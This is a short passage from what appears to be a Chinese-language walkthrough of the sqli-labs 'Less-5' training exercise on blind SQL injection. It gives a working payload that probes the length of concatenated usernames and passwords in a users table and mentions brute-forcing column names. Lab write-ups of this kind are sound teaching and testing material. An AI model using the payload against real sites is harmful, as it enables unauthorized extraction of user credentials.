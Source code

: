 ![Less-5_11](./img/Less-5_11.png)

根据返回页面是否正确逐一爆破字段名



+ 注入以下语句判断字段内容长度

~~~ shell
?id=1' and length((select group_concat(username,password) from users))>109--+
判断字段内容长度
~~~

![Less-5_12](./img/Less-5_12.png)
